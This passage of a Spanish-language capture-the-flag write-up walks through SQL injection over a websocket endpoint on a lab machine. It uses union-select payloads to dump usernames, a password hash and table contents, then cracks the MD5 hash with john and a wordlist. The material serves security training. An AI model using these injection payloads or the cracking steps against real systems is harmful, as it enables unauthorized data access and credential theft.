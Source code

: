 Obtengo usuario y contraseña

```null
catr input
{"version": "0.0.123\" union select 1,username,password,role from users-- -"}
```

```null
./websocat.x86_64-unknown-linux-musl ws://10.10.11.206:5789/version < input
{"message": {"id": 1, "version": "admin", "released_date": "0c090c365fa0559b151a43e0fea39710", "downloads": "admin"}}
```

Crackeo el hash con ```john```

```null
ohn -w:/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
denjanjade122566 (?)     
1g 0:00:00:00 DONE (2023-07-27 16:33) 3.571g/s 31003Kp/s 31003Kc/s 31003KC/s denlan2007..denisukeeciurly
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

No es válida por SSH. Dumpeo los datos de la tabla ```reports```

```null
catr input
{"version": "0.0.123\" union select 1,group_concat(reporter_name || subject || description),3,4 from reports-- -"}
```

```null
./websocat.x86_64-unknown-linux-musl ws://10.10.11.206:5789/version < input
{"message": {"id": 1, "version": "JasonAccept JPEG filesIs there a way to convert JPEG images with this tool? Or should I convert my JPEG to PNG and then use it?,MikeConverting non-ascii textWhen I try to embed non-ascii text, it always gives me an error. It would be nice if you could take a look at this.", "released_date": 3, "downloads": 4}}
```

Puedo ver más usuarios, obtengo los datos de la tabla con las respuestas

```null
catr input
{"version": "0.0.123\" union select 1,group_concat(id || answered_by || answer || answered_date),3,4 from answers-- -"}
```

```null
./websocat.x86_64-unknown-linux-musl ws://10.10.11.206:5789/version < input
{"message": {"id": 1, "version": "1adminHello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller17/08/2022,2adminHello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller25/09/2022", "released_date": 3, "downloads": 4}}
```
